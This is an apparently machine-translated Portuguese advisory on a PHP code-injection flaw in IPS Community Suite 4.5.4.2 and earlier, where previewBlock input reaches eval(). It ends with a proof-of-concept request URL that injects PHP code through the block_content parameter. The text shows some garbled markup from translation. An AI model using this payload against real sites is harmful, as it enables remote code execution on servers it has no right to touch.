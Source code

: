 <languages  />

Introdução
----------

As versões 4.5.4.2 e inferiores do IPS Community Suite apresentam vulnerabilidades de injeção de código PHP. A vulnerabilidade existe porque o método ` IPS \ cms \ modules \ front \ pages \ _builder :: previewBlock () ` permite que conteúdo arbitrário seja passado para ` IPS \ _Theme :: runProcessFunction () </ code > Método, este método será usado para chamar a função PHP <code> eval () `. Isso pode ser usado para injetar e executar código PHP arbitrário. A exploração bem-sucedida desta vulnerabilidade requer uma conta (como um moderador ou administrador) com permissões para gerenciar a barra lateral e habilitar o aplicativo "cms".

POC
---

    http://[host]/[ips]/index.php?app=cms&module=pages&controller=builder&do=previewBlock&block_plugin=stats&block_template_use_how=copy&block_plugin_app=core&_sending=block_content&block_content=RCE%0ACONTENT;}}phpinfo();die;/*